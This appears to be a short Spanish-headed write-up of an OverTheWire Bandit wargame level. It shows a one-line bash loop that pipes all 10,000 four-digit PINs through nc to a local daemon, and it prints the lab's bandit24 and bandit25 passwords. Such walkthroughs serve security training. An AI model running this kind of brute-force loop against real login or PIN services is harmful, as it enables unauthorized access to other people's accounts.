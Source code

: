 # Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
# Datos de acceso
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
# Solución
```
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

```
# Notas
# Referencia